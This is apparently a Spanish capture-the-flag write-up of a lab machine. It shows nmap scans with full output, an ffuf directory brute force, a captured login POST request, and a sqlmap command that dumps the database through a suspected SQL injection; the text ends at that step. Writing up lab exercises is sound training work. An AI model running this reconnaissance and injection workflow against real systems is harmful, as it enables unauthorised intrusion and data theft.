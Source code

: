 # Introducción

Este reto esta echo para evaluar skills de red team. 

Utilizaremos estas herramientas:

- Nmap
- Sqlmap
- Wordlistt
- PHP Shell

# Enumeración

Test conectividad + SO

```
ping 10.10.173.53
PING 10.10.173.53 (10.10.173.53) 56(84) bytes of data.
64 bytes from 10.10.173.53: icmp_seq=1 ttl=64 time=2.11 ms
64 bytes from 10.10.173.53: icmp_seq=2 ttl=64 time=0.417 ms
^C
--- 10.10.173.53 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.417/1.265/2.113/0.848 ms
```

Como podemos ver ttl=64 es un linux

Escaner puertos

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.173.53

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-27 12:00 BST
Nmap scan report for ip-10-10-173-53.eu-west-1.compute.internal (10.10.173.53)
Host is up (0.00045s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.229.254
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 5
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
53/tcp open  domain  ISC BIND 9.16.1-Ubuntu
| dns-nsid: 
|_  bind.version: 9.16.1-Ubuntu
MAC Address: 02:7F:25:35:DC:2B (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.99 seconds
```

Como podemos ver tenemos 3 puertos abiertos

- FTP 21 - con Anonymous activo
- SSH 22
- 53 Parece ser el mismo dominio con 9.16.1 Ubuntu

Me he conectado a dicho puerto 21 con anonymous y no he encontrado completamente nada. con lo cuál pasamos a otro puerto a ver si encontramos algo.

También podríamos hacer otro escaner de puertos mas enfocado en otros puertos UDP o de firewall.

```
sudo nmap -p- --min-rate 4000 10.10.173.53

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-27 12:03 BST
Nmap scan report for ip-10-10-173-53.eu-west-1.compute.internal (10.10.173.53)
Host is up (0.00042s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
53/tcp   open  domain
1337/tcp open  waste
1883/tcp open  mqtt
MAC Address: 02:7F:25:35:DC:2B (Unknown)
```

Cosa que hemos encontrado

- 1337
- 1883

Vamos a hacer otro escaner centrado en esos dos puertos encontrados

```
sudo nmap -p 1337,1883 -sCV -T4 --min-rate 4000 10.10.173.53

Starting Nmap 7.60 ( https://nmap.org ) at 2024-09-27 12:05 BST
Nmap scan report for ip-10-10-173-53.eu-west-1.compute.internal (10.10.173.53)
Host is up (0.00018s latency).

PORT     STATE SERVICE                 VERSION
1337/tcp open  http                    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: EXPOSED
1883/tcp open  mosquitto version 1.6.9
| mqtt-subscribe: 
|   Topics and their most recent payloads: 
|     $SYS/broker/load/messages/received/15min: 0.07
|     $SYS/broker/load/bytes/received/15min: 1.19
|     $SYS/broker/load/connections/15min: 0.07
|     $SYS/broker/load/sockets/5min: 0.20
|     $SYS/broker/load/bytes/sent/15min: 0.27
|     $SYS/broker/load/messages/sent/1min: 0.91
|     $SYS/broker/load/bytes/received/5min: 3.53
|     $SYS/broker/load/sockets/1min: 0.91
|     $SYS/broker/bytes/sent: 4
|     $SYS/broker/store/messages/bytes: 179
|     $SYS/broker/messages/sent: 1
|     $SYS/broker/messages/received: 1
|     $SYS/broker/heap/maximum: 49688
|     $SYS/broker/load/messages/sent/5min: 0.20
|     $SYS/broker/version: mosquitto version 1.6.9
|     $SYS/broker/uptime: 506 seconds
|     $SYS/broker/load/bytes/sent/5min: 0.79
|     $SYS/broker/load/sockets/15min: 0.07
|     $SYS/broker/bytes/received: 18
|     $SYS/broker/load/messages/received/5min: 0.20
|     $SYS/broker/load/connections/5min: 0.20
|     $SYS/broker/load/messages/received/1min: 0.91
|     $SYS/broker/load/bytes/sent/1min: 3.65
|     $SYS/broker/load/messages/sent/15min: 0.07
|     $SYS/broker/load/connections/1min: 0.91
|_    $SYS/broker/load/bytes/received/1min: 16.45
MAC Address: 02:7F:25:35:DC:2B (Unknown)
```

Parece ser que hemos encontrado un http en el puerto 1337 genial

Vemos que en el 1883 encontramos "mosquitto con la versión 1.6.9"

Vamos a enumerar la web a ver si encontramos algo.


![image](https://github.com/user-attachments/assets/a62c6e30-3205-457d-a32f-9a2fcbf586b5)

Vamos a hacer un escáner de directorios a ver si encontramos algo porque en el código fuente no encontramos nada

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.10.173.53:1337/FUZZ
javascript
phpmyadmin
admin
admin_101
```

![image](https://github.com/user-attachments/assets/f9f39367-2836-482a-bbf9-0ed69eb196dd)

Hemos encontrado un logeo en la base de datos de phpmyadmin, lo primero que podemos hacer es probar las credenciales por default de phpmyadmin 

He probado la por default y nada vamos a probar otro directorio como admin_101

![image](https://github.com/user-attachments/assets/61c51bee-5575-4104-9026-c1189e20acbd)

Vaya parece ser que tenemos un email puesto ya

"hacker@root.thm"

Jugando un poco tiene toda la pinta de haber un SQL Injection Vamos a hacer pruebas con SqlMap

Coguemos la request de burp para el post

```
cat request 
POST /admin_101/includes/user_login.php HTTP/1.1
Host: 10.10.173.53:1337
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 37
Origin: http://10.10.173.53:1337
Connection: close
Referer: http://10.10.173.53:1337/admin_101/
Cookie: PHPSESSID=olsjcph1jraqlnncm1n6c8nfaf

email=hacker%40root.thm&password=asdf
```

Vamos a hacer el sql map

```
sqlmap -r request --dump
```







